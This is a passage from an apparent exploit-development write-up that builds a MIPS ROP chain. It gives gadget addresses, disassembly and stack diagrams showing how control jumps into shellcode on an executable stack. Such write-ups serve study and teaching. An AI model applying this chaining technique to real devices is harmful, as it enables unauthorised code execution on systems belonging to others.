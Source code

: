 Since a function call will use the value into ``ra`` to return back we need to
find a gadget that sets that register and jump via another register. This is
not difficult to find, I think a lot of function epilogues are similar to
the following:

```
0x2ab31224 : ~ ra=0x24(sp), sp+=0x28, jmp $s2
 move $t9, $s2 ; 
 lw $ra, 0x24($sp) ; 
 lw $s2, 0x20($sp) ; 
 lw $s1, 0x1c($sp) ; 
 lw $s0, 0x18($sp) ; 
 jr $t9 ; 
 addiu $sp, $sp, 0x28
```

The plus side is that we can reload the registers with other values just in case
is necessary. Also the stack is moved further up (fortunately we have space to spare).

```
 ---- increasing addresses ---->
                                               ,---- 0x18 ----.
[   padding   ][  s0  ][  s1  ][  s2  ][  ra  ][    unused    ][  s0  ][  s1  ][  s2  ][  ra  ][ ????
                                                |                                              |
  sp points here at the beginning   ------------'      sp points here at the end   ------------'
```

Since the stack is executable I can act like it's 90s again and jump into it
to execute something; this gadget loads in ``v0`` the stack's address with an offset
and jump where the value of ``s0`` points to (also writes ``v0`` back in the stack
but fortunately at an offset that doesn't interfere with our stack juggling)

```
0x2ab3560c : ~ v0 = sp + 0x40, a2 = sp + 0x18, jmp s0
 addiu $v0, $sp, 0x40 ; 
 ori $a1, $zero, 0x8912 ; 
 addiu $a2, $sp, 0x18 ; 
 move $t9, $s0 ; 
 jalr $t9 ; 
 sw $v0, 0x1c($sp)
```

and then, finally, we can jump to it with the simplest of all the gadgets:

```
0x2ab0e2a8 : ~ jmp v0
 jr $v0 ; nop 
```

```
 ---- increasing addresses ---->
                                               ,---- 0x18 ----.                                ,---- 0x40 ----.
[   padding   ][  s0  ][  s1  ][  s2  ][  ra  ][    unused    ][  s0  ][  s1  ][  s2  ][  ra  ][    unused    ][ shellcode...
                                                                                               |
                                                                    sp points here ------------'
```
